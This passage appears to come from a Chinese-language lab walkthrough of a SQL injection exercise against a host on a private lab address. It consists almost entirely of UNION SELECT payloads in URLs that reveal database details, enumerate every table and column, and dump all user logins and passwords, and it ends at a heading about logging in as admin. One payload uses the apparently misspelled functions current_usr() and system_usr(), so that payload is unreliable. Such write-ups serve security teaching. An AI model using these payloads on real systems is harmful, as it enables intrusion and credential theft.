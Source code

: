 - 进一步获取数据库信息

- `http://192.168.56.101/cat.php?id=1 union select 1,@@version,3,4`,获取数据库版本信息<br>![](sql_coll9.png)

- `http://192.168.56.101/cat.php?id=1%20union%20select%201,concat(@@version_compile_os,',',@@version,',',current_usr(),',',system_usr(),',',database()),3,4`,获取更多信息<br>![](sql_coll10.png)

- `http://192.168.56.101/cat.php?id=1 union select 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`获取当前数据库的表名，以及每个表的列名,可以发现诸如password等敏感信息<br>![](sql_coll11.png)

- `http://192.168.56.101/cat.php?id=1 union select 1,concat(id,',', login,',',password),3,4 FROM users`可以获取users表中的所有信息<br>![](sql_coll12.png)


### 漏洞利用sql注入得到的信息登录admin用户
